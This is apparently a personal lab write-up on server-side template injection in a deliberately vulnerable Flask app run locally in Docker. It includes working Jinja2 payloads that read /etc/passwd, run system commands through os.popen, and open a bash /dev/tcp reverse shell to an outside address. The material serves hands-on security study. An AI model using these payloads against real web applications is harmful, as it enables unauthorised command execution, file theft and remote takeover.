 # Definition
Something to do!!
## Installing and Preparing lab
I will be using [SSTI-flak-hacking-playground](https://github.com/filipkarc/ssti-flask-hacking-playground) docker lab.
```shell
docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground
docker ps
```
___
# Attacking
## Understanding
Now, opening our web browser and entering http://localhost:8089, we should see this web page.
![[Pasted image 20230719192406.png]]
___
We can note that this webpage uses a *Template* to present content dynamically.
![[Pasted image 20230719192643.png]]
___
## Hacking
We are going to start scanning *Technologies* used in this webpage by using **whatweb** tool.
You will see that web uses *Python*.
```shell
whatweb "http://127.0.0.1:8089/"
```
![[Pasted image 20230719192951.png]]
___
### Verifying SSTI
First, you should verify if the web presents **SSTI** vulnerability.
So, let's try putting a basic *Python* math operation.
```Python
{{7*7}}
```
![[Pasted image 20230719193512.png]]
![[Pasted image 20230719193549.png]]
___
Also you can try out another *Python* operation, like this.
```Python
{{'7'*7}}
```
![[Pasted image 20230719193840.png]]
___
### Reading Sensitive Files
Now that we have been able to verify the existence of this SSTI vulnerability, we could use a lot of *Payloads* in the web like [Payloads All The Things - SSTI - Python Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) and try out something like this.
```Python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
This code accesses the **/etc/passwd** file through a Python function and attributes and then reads the entire contents of the file.
![[Pasted image 20230719194950.png]]
___
### Doing an RCE
As attackers we wish to execute commands right? You can do it by using another payload, **Exploit the SSTI by calling os.popen().read()**, from *Payloads All The Things*.
```Python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![[Pasted image 20230719195942.png]]
___
To do it more dangerous, we could deploy a *netcat* listener to obtain a **Reverse Shell** from thwe victim along with the basic RS one liner.
```bash
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4646 0>%261"
```
And in the web browser URL.
```Bash
http://localhost:8089/?user={{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4646 0>%261"').read() }}
```
![[Pasted image 20230719200748.png]]
___